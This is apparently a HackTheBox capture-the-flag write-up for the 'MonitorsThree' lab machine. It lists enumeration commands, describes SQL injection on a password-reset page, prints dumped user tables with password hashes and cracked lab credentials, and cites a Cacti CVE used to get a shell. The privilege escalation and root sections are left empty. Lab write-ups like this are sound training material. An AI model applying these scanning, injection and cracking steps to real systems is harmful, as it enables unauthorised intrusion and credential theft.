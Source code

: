 ```yaml
---
layout: post
title: "HackTheBox: MonitorsThree - Writeup 19/09/2024"
description: A writeup for Hackthebox Cicada
date:   2024-09-19 12:06:31 +0000
image:  '/images/post/monitorsthree.jpg'
tags:   [Hackthebox]
---
```

## Setup
`mkdir -p ~/ctf/HackTheBox/monitorsthree/scans; cd ~/ctf/HackTheBox/monitorsthree`
IP Address: 10.10.11.30


`echo "10.10.11.30 monitorsthree.htb" | sudo tee -a /etc/hosts`
10.10.11.30 monitorsthree.htb
***
### Enumeration 
![1b72642bca17d8635c49f8d56e7de859.png]({{site.baseurl}}/images/post/1b72642bca17d8635c49f8d56e7de859.png)
`nmap -sC -sV -Pn -p- monitorsthree.htb -oN scans/nmap -vv`
`nmap -sC -sV -p- -T5 --min-rate 2500 -oN scans/nmap_2 monitorsthree.htb`
```
# nmap findings

```

`gobuster dir --no-error -e -x php,html,txt -u http://monitorsthree.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 --output scans/gobuster`


[Gobuster Cheatsheet](https://linuxcscom.wordpress.com/gobuster/)
```
# gobuster findings

```

`feroxbuster --url http://monitorsthree.htb -d 2 -x php,html,txt --output scans/feroxbuster`
```
# ferox buster findings

```

`wfuzz -c -u https://monitorsthree.htb -H "Host: FUZZ.monitorsthree.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --oF scans/wfuzz_subdomain`
```
#Wfuzz Subdomain Finder 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://monitorsthree.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                         
=====================================================================

000000246:   302        0 L      0 W        0 Ch        "cacti"       
```

using `'`  in http://monitorsthree.htb/forgot_password.php we find sql error and use Ghauri for SQL injection: 

![135e5b6ec2acf567cee994423c6cd01f.png]({{site.baseurl}}/images/post/135e5b6ec2acf567cee994423c6cd01f.png)

Database: monitorsthree_db
Table: users
[4 entries]
+----+-----------+-----------------------------+----------------------------------+-------------------+-----------------------+------------+------------+-----------+
| id | username  | email                       | password                         | name              | position              | dob        | start_date | salary    |                                            
+----+-----------+-----------------------------+----------------------------------+-------------------+-----------------------+------------+------------+-----------+                                            
| 2  | admin     | admin@monitorsthree.htb     | 31a181c8372e3afc59dab863430610e8 | Marcus Higgins    | Super User            | 1978-04-25 | 2021-01-12 | 320800.00 |                                            
| 7  | dthompson | mwatson@monitorsthree.htb   | c585d01f2eb3e6e1073e92023088a3dd | Michael Watson    | Website Administrator | 1985-02-15 | 2021-05-10 | 75000.00  |                                            
| 6  | janderson | janderson@monitorsthree.htb | 1e68b6eb86b45f6d92f8f292428f77ac | Jennifer Anderson | Network Engineer      | 1990-07-30 | 2021-06-20 | 68000.00  |                                            
| 5  | mwatson   | dthompson@monitorsthree.htb | 633b683cc128fe244b00f176c8a950f5 | David Thompson    | Database Manager      | 1982-11-23 | 2022-09-15 | 83000.00  |                                            
+----+-----------+-----------------------------+----------------------------------+-------------------+-----------------------+------------+------------+-----------+                                            

[22:50:02] [INFO] table 'monitorsthree_db.users' dumped to CSV file '/home/w3rew01f/.ghauri/monitorsthree.htb/dump/monitorsthree_db/users.csv'



Using hashcat hashid and rockyou list we crack the hash:
![96cbaa7dc84d9ec21c202cebfb397f2f.png]({{site.baseurl}}/images/post/96cbaa7dc84d9ec21c202cebfb397f2f.png)

`admin:greencacti2001`

Nothing useful in `http://monitorsthree.htb/admin` and `http://monitorsthree.htb/login`

The version of cacti is vulnerable to [CVE-2024-25641](https://www.rapid7.com/db/modules/exploit/multi/http/cacti_package_import_rce/)

![9f60245f96b99a6ee4f5393cf58f4847.png]({{site.baseurl}}/images/post/9f60245f96b99a6ee4f5393cf58f4847.png)

we get a shell but no access to marcus 

using linpeas we find a database 
![60662f54ca3a5036f1555b8e13eae8ff.png]({{site.baseurl}}/images/post/60662f54ca3a5036f1555b8e13eae8ff.png)
Active 3306 port here 
![23ee3a00966866b1073ba303489c6e0e.png]({{site.baseurl}}/images/post/23ee3a00966866b1073ba303489c6e0e.png)



+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
| id | username | password                                                     | realm | full_name     | email_address            | must_change_password | password_change | show_tree | show_list | show_preview | graph_settings | login_opts | policy_graphs | policy_trees | policy_hosts | policy_graph_templates | enabled | lastchange | lastlogin | password_history | locked | failed_attempts | lastfail | reset_perms |
+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
|  1 | admin    | $2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G |     0 | Administrator | marcus@monitorsthree.htb |                      |                 | on        | on        | on           | on             |          2 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 | -1               |        |               0 |        0 |   436423766 |
|  3 | guest    | $2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu |     0 | Guest Account | guest@monitorsthree.htb  |                      |                 | on        | on        | on           |                |          1 |             1 |            1 |            1 |                      1 |         |         -1 |        -1 | -1               |        |               0 |        0 |  3774379591 |
|  4 | marcus   | $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK |     0 | Marcus        | marcus@monitorsthree.htb |                      | on              | on        | on        | on           | on             |          1 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 |                  |        |               0 |        0 |  1677427318 |
+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+

Using hashcat we get the password for marcus
![4b6eb0c5fb608ca27e0d603cfe9ba554.png]({{site.baseurl}}/images/post/4b6eb0c5fb608ca27e0d603cfe9ba554.png)

`marcus:12345678910`
Succesfull Login 
![d13817ed04784ca5bedde6b5c6dbbbb7.png]({{site.baseurl}}/images/post/d13817ed04784ca5bedde6b5c6dbbbb7.png)

***
# user flag
Location: /home/marcus | Flag: 37b##################################

#### Privilege Escalation



***
# root flag
Location:  | Flag: 
```

```